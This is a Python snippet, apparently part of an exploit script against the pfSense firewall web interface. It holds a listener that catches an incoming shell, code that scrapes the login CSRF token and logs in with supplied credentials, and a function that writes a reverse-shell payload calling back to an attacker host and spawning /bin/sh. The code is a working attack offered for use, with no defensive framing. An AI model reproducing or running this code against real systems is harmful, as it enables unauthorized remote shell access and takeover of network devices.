 ```py
'''Here come the Functions'''

# Setar o handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()

#First we need to get the CSRF Token in order to procced on login
def getCSRFToken(rhost):
    # Make csrfMagicToken global
    global csrf_token
    global login_url
    login_url = 'https://' + rhost + '/index.php'
    # Make the request to get csrf token
    login_page = r.get(login_url, verify=False, proxies=proxies, headers=headers)
    # Get the index of the page, search for csrfMagicToken in it
    index = login_page.text.find("csrfMagicToken")
    # Get only the csrfMagicToken in it
    csrf_token = login_page.text[index:index+128].split('"')[-1]
    if csrf_token:
        print("[+] We got the csrf_token [+]")
    else:
        print("[+] Cannot get the CSRF_TOKEN[+]")
        exit
# Now we got the csrftoken, let's log in the application
def pfsenseLogin(rhost,username,password):
    # Let's format the data we will send
    login_data = [('__csrf_magic',csrf_token), ('usernamefld',username), ('passwordfld',password), ('login','Login') ]
    login_data = collections.OrderedDict(login_data)
    encoded_data = urllib.parse.urlencode(login_data)
    login_request = r.post(login_url, data=encoded_data,cookies=r.cookies, verify=False, proxies=proxies, allow_redirects=True, headers=headers)
    if login_request.status_code == 200:
        print("[+] Login successssss![+]")
    else:
        print("[+] Login FAILED![+]")
    
def payload(lhost,lport):
    # command to write in a file and served as python http web server
    command = """import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("%s",%s))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])""" % (lhost, lport)
    payload_file = open('payload.txt', 'w')
      
    # Writing multiple strings
    # at a time
    payload_file.writelines(command)
    payload_file.close()
    print("[+] Payload Written to payload.txt [+]")
 
```